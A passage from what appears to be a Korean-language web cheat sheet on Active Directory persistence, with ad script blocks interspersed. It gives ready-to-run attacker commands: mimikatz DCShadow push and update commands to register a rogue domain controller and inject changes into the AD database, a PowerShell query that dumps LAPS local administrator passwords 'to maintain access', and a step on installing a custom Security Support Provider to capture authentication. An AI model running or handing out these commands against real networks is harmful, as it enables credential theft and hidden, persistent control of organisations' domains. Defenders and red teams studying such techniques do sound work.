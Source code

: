 <script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

2. 마스터 암호를 사용하여 모든 계정을 인증하세요.

# 사용자 정의 SSP

- 사용자 정의 보안 지원 공급자를 설치하세요.
- SSP를 사용하여 인증 프로세스를 캡처하거나 조작하세요.

# DCShadow



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

- DCShadow를 사용하여 로그인 DC를 등록하세요.

```js
mimikatz.exe "privilege::debug" "lsadump::dcshadow /push" "exit"
```

2. 수정된 객체 및 권한을 조작하기 위해 AD 데이터베이스에 변경 사항을 푸시하세요.

```js
mimikatz.exe "privilege::debug" "lsadump::dcshadow /update" "exit"
```



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

# LAPS 지속성

- 액세스를 유지하는 데 LAPS 설정을 활용하세요.

```js
Get-ADComputer -Filter * -Property "ms-MCS-AdmPwd" | Select-Object Name, "ms-MCS-AdmPwd"
```
